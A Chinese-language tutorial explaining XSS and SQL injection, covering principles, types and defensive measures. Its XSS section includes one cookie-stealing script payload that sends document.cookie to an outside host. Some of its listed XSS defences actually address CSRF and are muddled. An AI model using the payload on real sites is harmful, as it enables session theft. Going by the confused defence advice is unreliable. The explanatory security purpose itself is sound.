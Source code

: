 # XSS漏洞与SQL注入漏洞介绍及解决方案
[toc]

标签（空格分隔）： 未分类

---
## 一、跨站脚本攻击(XSS) ##
### 原理： ###
XSS又叫CSS (Cross Site Script) ，跨站脚本攻击。它指的是恶意攻击者往Web页面里插入恶意脚本代码，而程序对于用户输入内容未过滤，当用户浏览该页之时，嵌入其中Web里面的脚本代码会被执行，从而达到恶意攻击用户的特殊目的。XSS漏洞是Web应用程序中最常见的漏洞之一。如果您的站点没有预防XSS漏洞的固定方法，那么就存在XSS漏洞。这个利用XSS漏洞的病毒之所以具有重要意义是因为，通常难以看到XSS漏洞的威胁，而该病毒则将其发挥得淋漓尽致。
### 危害： ###
窃取cookie、放蠕虫、网站钓鱼 ...
### 分类： ###
存储型XSS、反射型XSS、DOM型XSS
### 工作流程： ###

 1. 恶意用户，在一些公共区域（例如，建议提交表单或消息公共板的输入表单）输入一些文本，这些文本被其它用户看到，但这些文本不仅仅是他们要输入的文本，同时还包括一些可以在客户端执行的脚本。如：
http://xxx.xxx.com.cn/intf/_photos.jsp?callback=<script>window.location.href="http://www.baidu.com?a=" + escape(document.cookie)</script>、参数<script>xxx</script>如果这里没有经过转义处理，则页面中就嵌入了一段script
2. 恶意提交这个表单
3. 其他用户看到这个包括恶意脚本的页面并执行，获取用户的cookie等敏感信息。

### 防御措施： ###
#### 1、防堵跨站漏洞，阻止攻击者利用在被攻击网站上发布跨站攻击语句

不可以信任用户提交的任何内容，首先代码里对用户输入的地方和变量都需要仔细检查长度和对”<”，”>”，”；”，”’”等字符做过滤；其次任何内容写到页面之前都必须加以encode，避免不小心把htmltag弄出来。这一个层面做好，至少可以堵住超过一半的XSS攻击。

#### 2、cookie防盗

首先避免直接在cookie中泄露用户隐私，例如email、密码等等。其次通过使cookie和系统ip绑定来降低cookie泄露后的危险。这样攻击者得到的cookie没有实际价值，不可能拿来重放。

#### 3、尽量采用POST而非GET提交表单

POST操作不可能绕开javascript的使用，这会给攻击者增加难度，减少可利用的跨站漏洞。

#### 4、严格检查refer

检查httprefer是否来自预料中的url。这可以阻止第2类攻击手法发起的http请求，也能防止大部分第1类攻击手法，除非正好在特权操作的引用页上种了跨站访问。

#### 5、将单步流程改为多步，在多步流程中引入效验码

多步流程中每一步都产生一个验讠正码作为hidden表单元素嵌在中间页面，下一步操作时这个验讠正码被提交到服务器，服务器检查这个验讠正码是否匹配。首先这为第1类攻击者大大增加了麻烦。其次攻击者必须在多步流程中拿到上一步产生的效验码才有可能发起下一步请求，这在第2类攻击中是几乎无法做到的。

#### 6、引入用户交互

简单的一个看图识数可以堵住几乎所有的非预期特权操作。

#### 7、只在允许anonymous访问的地方使用动态的javascript。

#### 8、对于用户提交信息的中的img等link，检查是否有重定向回本站、不是真的图片等可疑操作。

#### 9、内部管理网站的问题

很多时候，内部网站往往疏于关注安全问题，只是简单的限制访问来源。这种网站往往对XSS攻击毫无抵抗力，需要多加注意。

### 案例：https://cnodejs.org/topic/50463565329c5139760c34a1

## 二、SQL注入攻击
### 原理：
所谓SQL注入，SQL注入攻击指的是通过构建特殊的输入作为参数传入Web应用程序，而这些输入大都是SQL语法里的一些组合，通过执行SQL语句进而执行攻击者所要的操作，其主要原因是程序没有细致地过滤用户输入的数据，致使非法数据侵入系统。
### 分类：
根据相关技术原理，SQL注入可以分为平台层注入和代码层注入。前者由不安全的数据库配置或数据库平台的漏洞所致；后者主要是由于程序员对输入未进行细致地过滤，从而执行了非法的数据查询。基于此，SQL注入的产生原因通常表现在以下几方面：①不当的类型处理；②不安全的数据库配置；③不合理的查询集处理；④不当的错误处理；⑤转义字符处理不合适；⑥多个提交处理不当。
### 防护：
1. 永远不要信任用户的输入。对用户的输入进行校验，可以通过正则表达式，或限制长度；对单引号和双"-"进行转换等；

2. 永远不要使用动态拼装sql，可以使用参数化的sql或者直接使用存储过程进行数据查询存取；

3. 永远不要使用管理员权限的数据库连接，为每个应用使用单独的权限有限的数据库连接；

4. 不要把机密信息直接存放，加密或者hash掉密码和敏感的信息；

5. 应用的异常信息应该给出尽可能少的提示，最好使用自定义的错误信息对原始错误信息进行包装；

6. sql注入的检测方法一般采取辅助软件或网站平台来检测，软件一般采用sql注入检测工具jsky，网站平台就有亿思网站安全平台检测工具。MDCSOFT SCAN等。采用MDCSOFT-IPS可以有效的防御SQL注入，XSS攻击等。

### 案例：https://blog.csdn.net/jessysong/article/details/77140961




